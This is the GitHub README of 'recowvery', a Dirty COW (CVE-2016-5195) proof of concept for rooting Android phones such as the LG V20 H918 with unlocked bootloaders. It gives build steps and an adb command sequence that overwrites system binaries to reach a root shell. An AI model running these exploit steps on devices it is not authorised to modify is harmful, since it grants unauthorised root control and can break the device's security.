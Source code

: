 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## recowvery, an exploit tool for flashing recovery on "secure" systems with **unlocked** bootloaders
This means you, LG V20 H918 (T-Mobile)

This repository is set up for building inside an Android OS build environment.  
Please add it to your `local_manifests` folder as `dirtycow.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<manifest>
	<remote  name="jc" fetch="ssh://git@github.com/jcadduono/" />
	<project path="external/dirtycow" name="android_external_dirtycow" remote="jc" revision="android-6.0" />
	<project path="external/libbootimg" name="android_external_libbootimg" remote="jc" revision="android-6.0" />
</manifest>
```

build using:

```sh
lunch your_device-eng

make -j5 dirtycow recowvery-applypatch recowvery-app_process64 recowvery-run-as
```

## Usage:

### Building:


### Running:
```sh
adb push dirtycow /data/local/tmp
adb push recowvery-applypatch /data/local/tmp
adb push recowvery-app_process64 /data/local/tmp
adb push recowvery-run-as /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/applypatch recowvery-applypatch
"<wait for completion>"
$ ./dirtycow /system/bin/app_process64 recowvery-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb logcat -s recowvery
"<wait for it to tell you it was successful>"
"[CTRL+C]"

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as
$ run-as su
# ./recowvery-applypatch boot
"<wait for it to flash your boot image this time>"

#
"<play around in your limitless root shell full of possibilities>"
```
